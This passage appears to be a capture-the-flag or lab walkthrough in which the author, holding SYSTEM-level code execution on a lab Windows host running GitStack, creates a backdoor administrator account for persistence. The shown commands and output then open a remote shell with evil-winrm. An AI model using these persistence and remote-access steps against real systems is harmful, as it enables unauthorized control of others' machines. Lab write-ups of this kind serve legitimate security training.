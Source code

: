 Since we have RCE as system, there is no need for privilege escalation.

Instead, we want to consolidate our position incase we lose the netcat session.

Let's get a user account with the "Remote Desktop Users' group for RDP or "Remote Management Users" group for WINRM. Since earlier we saw both 3389 (RDP) and 5985 (WINRM) open.

This will be easy since we are system, we can just create an account.

### DO NOT USE A PASSWORD FOR THIS YOU USE ANYWHERE ELSE! This is a open network haha.

```
net user USERNAME PASSWORD /add
net localgroup Administrators USERNAME /add
net localgroup "Remote Management Users" USERNAME /add
PS C:\GitStack\gitphp> net user USERNAME
User name                    USERNAME
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            25/03/2021 03:26:34
Password expires             Never
Password changeable          25/03/2021 03:26:34
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
                             *Users                
Global Group memberships     *None                 
The command completed successfully.

```

I selected WinRM because of the cool tool [evil-winrm](https://github.com/Hackplayers/evil-winrm).

Also, RDP might be laggy on a network due to memory limitations on the target.

Save your credentials you used to create your account somewhere on your VM.

Finally, let's get a stable CLI shell using evil-winrm.

```
evil-winrm -i 10.200.72.150 -u USERNAME -p PASSWORD                         

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Ferrari404\Documents> 
```
